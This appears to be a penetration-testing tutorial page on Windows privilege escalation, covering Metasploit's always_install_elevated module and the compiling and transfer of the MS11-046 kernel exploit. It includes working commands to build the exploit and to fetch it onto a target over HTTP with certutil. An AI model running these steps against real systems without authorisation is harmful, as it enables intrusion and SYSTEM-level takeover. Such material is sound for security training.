 ```yaml
---
legal-banner: true
---
```


### **EXPLOITING WITH METASPLOIT**

1.  We discovered that the target  potentially vulnerable to the following kernel vulnerabilities:  
    
    ![](../../../img/Windows-Environment/15.png)

    **NOTE:** `exploit/windows/local/always_install_elevated` Enables privilege escalation by exploiting the AlwaysInstallElevated policy setting on Windows systems.
    
2.  For this exploit, we need to set the LHOST, LPORT, and SESSION fields. LPORT should be different from the port used in the initial exploit to get the Meterpreter session (which was 1338 in this case).
    
    ```
    use exploit/windows/local/always_install_elevated
    set SESSION 1
    set LHOST [IP-ADRESS]
    set LPORT [PORT]
    run
    ```
    
    ![](../../../img/Windows-Environment/16.png)
    
3.  Now, run the exploit, which should provide us with a SYSTEM shell.  
    
    ![](../../../img/Windows-Environment/17.png)
    

### **EXPLOITING WITH WINDOWS EXPLOIT SUGGESTER**

1.  Using Windows Exploit Suggester, we discovered that the target is potentially vulnerable to several kernel vulnerabilities.  
    `python3 wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only`  
    
    ![](../../../img/Windows-Environment/18.png)
    
2.  We can download the exploit using searchsploit and compile it.
    
    ```
    searchsploit 40564
    searchsploit -m windows_x86/local/40564.c
    x86_64-w64-mingw32-gcc 40564.c -o ms11-046.exe -lws2_32
    ```
    
    ![](../../../img/Windows-Environment/19.png)
    
3.  Alternatively, we can search for a pre-compiled version of the exploit.  
    
    ![](../../../img/Windows-Environment/20.png)

    **NOTE:** Be cautious of executable files as they may contain malicious code or backdoors. Always download from trusted sources.
    
4.  MS11-046 pre-compiled exploit  
    
    ![](../../../img/Windows-Environment/21.png)
    
5.  To download Exploit Click on the raw download link to obtain the executable:  
    
    ![](../../../img/Windows-Environment/22.png)
    
6.  Transfer exploit to the target machine (see File Transfer section for details).  
    `python3 -m http.server 8000`  
    
    ![](../../../img/Windows-Environment/23.png)
    
7.  After executing the exploit, ensure the system remains stable and the privilege escalation is successful without causing crashes or other issues.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/ms11-046.exe ms11-046.exe`  
    
    ![](../../../img/Windows-Environment/24.png)